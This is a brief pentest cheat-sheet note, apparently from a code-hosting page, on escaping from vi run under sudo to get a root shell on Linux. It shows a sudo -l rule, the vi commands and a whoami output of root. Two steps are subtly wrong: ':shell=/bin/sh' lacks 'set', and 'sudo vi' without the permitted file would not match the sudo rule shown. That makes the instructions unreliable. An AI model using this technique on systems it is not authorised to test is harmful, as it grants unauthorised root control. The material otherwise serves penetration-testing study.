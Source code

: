 # vi

`vi` can be use for privilege escalations

For example, if sudo -l of a non-root user returns the following :

```bash
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We can launch vi as root :&#x20;

```bash
sudo vi
```

Then set a shell variable :&#x20;

```bash
:shell=/bin/sh
```

And call the shell :&#x20;

```bash
:shell
# whoami
whoami
root
```

\-> The shell is launched as root 🍾
